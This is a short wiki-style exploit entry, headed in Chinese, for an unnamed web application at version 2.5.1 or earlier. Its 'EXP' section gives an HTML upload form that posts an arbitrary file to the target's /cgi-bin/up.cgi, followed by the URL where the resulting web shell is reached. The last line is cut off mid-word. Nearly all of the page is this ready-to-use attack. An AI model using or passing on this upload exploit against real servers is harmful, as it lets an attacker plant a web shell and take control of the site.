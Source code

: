 <languages /> <translate>

漏洞影響
--------

</translate>

    Version: <=2.5.1

EXP
---

    <form action="http://<target>/cgi-bin/up.cgi" method="post" enctype="multipart/form-data">
       <input type="text" name="sid" value="joe">
       <input type="file" name="file">
       <input type="submit" value="Upload" name="submit">
    </form>

    Shell : http://<target>/cgi-bin/temp/joe/she